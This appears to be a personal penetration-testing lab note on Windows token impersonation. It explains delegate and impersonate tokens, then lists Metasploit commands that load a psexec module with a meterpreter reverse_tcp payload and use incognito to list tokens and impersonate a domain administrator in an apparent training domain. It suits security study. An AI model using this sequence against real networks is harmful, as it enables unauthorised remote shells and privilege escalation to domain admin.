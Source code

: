 # Token Impersonation

Tokens are temporary keys that allow access to a system/network without having to provide credentials each time you access a file. (Like cookies for computers). There are two types:

- Delegate - Created for logging into a machine or using RDP
- Impersonate - "Non-interactive" Such has attaching a network drive or a domain logon script.

This can be especially lethal if domain admins are logging into normal machines.

```bash
msfconsole

search psexec

use 4

set payload windows/x64/meterpreter/reverse_tcp

load incognito

help

list_tokens -u #-g

impersonate_token marvel\\fcastle

rev2self
```

Before the Administrator user logs in
![[token1.png]]

After a user logs in as Administrator
![[token2.png]]


```
impersonate_token MARVEL\\administrator
```